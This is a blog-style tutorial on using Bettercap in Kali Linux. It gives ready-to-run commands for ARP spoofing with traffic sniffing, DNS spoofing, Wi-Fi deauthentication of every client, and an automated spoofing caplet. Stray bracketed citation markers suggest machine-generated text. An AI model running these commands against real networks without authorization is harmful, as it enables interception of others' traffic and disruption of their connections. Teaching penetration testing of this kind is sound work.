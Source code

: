```yaml
---
title: A Comprehensive Guide to Bettercap on Kali Linux
linkTitle: Bettercap
description: Swiss Army knife for network attacks, Bettercap is a go-to solution for professionals aiming to assess and improve cybersecurity defenses.
date: 2024-11-22
draft: false
tags:
   - kali tools
categories:
   - Kali linux
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
weight: 320
keywords:
   - Bettercap
featured_image: /images/kalilinux2.webp
url: comprehensive-guide-bettercap-kali-linux
translationKey: comprehensive-guide-bettercap-kali-linux
---
```

Kali Linux is a leading platform for cybersecurity professionals, equipped with a suite of powerful tools for ethical hacking and penetration testing. One standout tool in its arsenal is **Bettercap**, an advanced framework designed for network reconnaissance, traffic manipulation, and exploiting wireless communications. Often described as a "Swiss Army knife" for network attacks, Bettercap is a go-to solution for professionals aiming to assess and improve cybersecurity defenses.

---

## What Is Bettercap?

Bettercap is an extensible and versatile framework, built in Go, that facilitates network attacks, reconnaissance, and traffic analysis. Unlike its predecessor, Ettercap, Bettercap offers enhanced performance, modularity, and support for various protocols, including Wi-Fi, Bluetooth Low Energy (BLE), Ethernet, and USB. It can perform **Man-in-the-Middle (MITM)** attacks, DNS spoofing, ARP poisoning, and more, making it essential for both offensive and defensive cybersecurity tasks.

### Key Features

1. **Network Probing and Mapping**:
   - Scans networks to identify live hosts, their IPs, MAC addresses, and open ports.
   - Provides detailed insights into the infrastructure of a network.

2. **Traffic Manipulation**:
   - Performs DNS, HTTPS, and ARP spoofing.
   - Redirects traffic and intercepts sensitive data.

3. **Wireless Reconnaissance**:
   - Monitors Wi-Fi networks, capturing WPA/WPA2 handshakes and executing deauthentication attacks.
   - Identifies and exploits Bluetooth devices.

4. **Caplets and Automation**:
   - Allows users to automate tasks using customizable scripts called caplets.

5. **Web-Based UI**:
   - Offers a convenient dashboard for managing and visualizing active modules and captured data.

---

## Installing Bettercap on Kali Linux

Bettercap is included in Kali Linux’s repositories, making installation straightforward.

### Steps

1. **Update System**:
   Run the following to ensure your package list is up-to-date:

   ```bash
   sudo apt update
   ```

2. **Install Bettercap**:
   Use the package manager to install Bettercap:

   ```bash
   sudo apt install bettercap
   ```

3. **Verify Installation**:
   Check the installed version:

   ```bash
   bettercap --version
   ```

### Optional: Installing the Latest Version

For those who want the latest features, Bettercap can be built from source:

```bash
git clone https://github.com/bettercap/bettercap.git
cd bettercap
make build
```

This ensures you have access to experimental modules and updates【42】【45】【46】.

---

## Using Bettercap: Practical Examples

Bettercap’s modular design allows users to activate specific functionalities tailored to their needs.

### 1. **Network Scanning**

   Identify devices on a network:

   ```bash
   sudo bettercap
   net.probe on
   net.show
   ```

   This reveals all active hosts, including their IPs, MAC addresses, and hostnames【43】.

### 2. **ARP Spoofing**

   Conduct ARP spoofing to intercept a target’s network traffic:

   ```bash
   set arp.spoof.targets 192.168.1.10
   arp.spoof on
   net.sniff on
   ```

   This positions Bettercap between the target and the router, enabling traffic interception【43】【46】.

### 3. **DNS Spoofing**

   Redirect users attempting to access a specific domain:

   ```bash
   set dns.spoof.domains example.com
   dns.spoof on
   ```

   When the target tries to visit `example.com`, they will be redirected to a malicious or test page【43】.

### 4. **Wireless Attacks**

   Monitor and deauthenticate clients on a Wi-Fi network:

   ```bash
   wifi.recon on
   wifi.deauth all
   ```

   This disconnects devices from the network, often used to capture WPA handshakes for further analysis【42】【46】.

---

## Automating Tasks with Caplets

Caplets are pre-written scripts that automate Bettercap tasks. They simplify repetitive actions, making it easier to execute complex workflows.

### Example

Save the following in a file named `scan.cap`:

```text
net.probe on
net.show
set arp.spoof.targets 192.168.1.10
arp.spoof on
net.sniff on
```

Run the caplet with:

```bash
bettercap -caplet scan.cap
```

Caplets are especially useful for demonstrations or repeatable penetration testing workflows【45】【46】.

---

## Ethical Considerations

Bettercap is a powerful tool, but its misuse can lead to severe legal consequences. Ethical use requires:

- **Explicit Permission**: Only test systems with written authorization.
- **Transparency**: Share findings with stakeholders to improve defenses.
- **Legal Compliance**: Follow cybersecurity laws and industry standards in your region.

---

## Conclusion

Bettercap is a cornerstone tool for cybersecurity professionals, providing comprehensive capabilities for network analysis and penetration testing. Its versatility in handling various protocols, coupled with its ease of use, makes it an invaluable asset for ethical hackers and security researchers.

When used responsibly, Bettercap not only highlights vulnerabilities but also strengthens defenses, ensuring a safer digital environment.

For more details, visit [Bettercap's official documentation](https://www.bettercap.org/) or explore Kali Linux’s tool repository【42】【43】【46】.
